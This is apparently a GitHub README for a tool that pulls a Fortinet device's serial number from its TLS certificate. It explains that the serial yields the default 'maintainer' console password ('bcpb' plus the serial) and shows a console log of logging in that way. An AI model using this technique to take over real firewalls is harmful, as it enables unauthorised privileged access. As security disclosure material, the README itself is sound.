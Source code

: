 ![](./.github/banner.png)

<p align="center">
    Extract the serial number of a remote Fortinet device.
</p>

<p align="center">
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/GetFortinetSerialNumber">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <br>
</p>

## Example

```
$ ./GetFortinetSerialNumber.py -H forti.example.com
[+] Getting certificate information ...
  | Serial number: FGT60DPA12345789
  |   Detected FortiGate 60D (FGT60D-PA12345789)
  |   If you have a console access, here is the default password:
  |   | Username: maintainer
  |   | Password: bcpbFGT60DPA12345789
[+] 1 serial number(s) found in forti.example.com:443 certificate information.
```

## Explanation

When you connect to the remote Fortinet device from a browser, you get a self-signed certificate error:

![](./.github/no_hsts.png)

And if we look closely, we see the device serial number appears in the certificate `Common Name`: 

![](./.github/sn_in_cert.png)

## What to do with the serial number ?

Firstly knowing the serial number allows to know what type of device it is, and the serial number can be used for generating the default credentials for the console of the device. For example with the serial number of a FortiGate 100 E `FG100EPA12345678`:

 - **Username** : `maintainer`
 - **Password** : `bcpbFG100EPA12345678`

```
Code: Of Ob 22 £2 30 80 ff ff ff ff 91 01 8b 04 9d 40 cd 47 80 3b
RIP [<ffffffff80118ac9>] RSP <0000010106e74ec8>
 <0>Kernel panic: Attempted to kill the idle task!
In idle task - not syncing
 <0>Rebooting in 5 seconds..FortiGate-60D (15:02-10.10.2012)
Serial number:FGT60DPA12345789
RAM activation
CPU(00:000106ca bfebfbff): MP initialization
CPU(01:000106ca bfebfbff): MP initialization
CPU(02:000106ca bfebfbff): MP initialization
CPU(03:000106ca bfebfbff): MP initialization
Total RAM: 4096MB
Enabling cache...Done.
Scanning PCI bus...Done.
Allocating PCI resources...Done.
Enabling PCI resources...Done.
Zeroing IRQ settings...Done.
Verifying PIRQ tables...Done.
Boot up, boot device capacity: 15272MB.
Press any key to display configuration menu... 

Reading boot image 1432336 bytes.
Initializing firewall...
System is starting... 

FOR60D login: maintainer 
Password: ********************
Welcome ! 

FOR60D # 
FOR60D # 
FOR60D # 
```

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.
